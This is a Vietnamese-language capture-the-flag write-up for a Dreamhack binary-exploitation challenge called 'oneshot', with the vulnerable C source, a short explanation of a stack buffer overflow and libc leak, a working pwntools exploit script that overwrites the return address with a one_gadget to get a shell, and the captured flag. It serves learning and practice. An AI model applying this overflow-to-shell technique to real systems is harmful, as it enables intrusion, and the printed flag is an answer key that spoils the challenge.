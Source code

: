 # Oneshot

bài này cái cơ bản và dễ

**source C:**
```c

// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if (check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}

```

bài này có lỗi BOF nè

chương trình cho ta địa chỉ stdout nên **ta dễ dàng leak được libc rồi**

như tên đề bài thì ta chỉ cần one_gadget là xong

![image](https://github.com/gookoosss/CTF/assets/128712571/1696b15e-3ffb-448d-bf51-e6cee5687756)


**chọn 0x45226**

lưu ý nhỏ là khi nhập payload là **tại rbp-0x8 sẽ so sánh với null , nếu ko phải sẽ out chương trình nên tại rbp-0x8 là sẽ nhập 8 byte null nha**

![image](https://github.com/gookoosss/CTF/assets/128712571/e49ca9b0-0e06-4dc5-a94d-f4b46bb8ef16)


## script:

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./oneshot_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")
context.binary = exe
p = process([exe.path])
p = remote("host3.dreamhack.games", 14176)
        
p.recvuntil(b'stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

# gdb.attach(p, gdbscript = '''
# b*main+171
# c        
# ''')

# input()

one_gadget = libc.address + 0x45226

payload = b'a'*24
payload += b'\0'*8
payload += b'a'*8
payload += p64(one_gadget)
# payload += p64(one_gadget)
p.sendafter(b'MSG: ',payload)

p.interactive()

# DH{7caac677309f0c97f98cd088e4184671d434b376dd2504df8d6b7ae7da3fc8f5}


```

## Flag:


**DH{7caac677309f0c97f98cd088e4184671d434b376dd2504df8d6b7ae7da3fc8f5}**
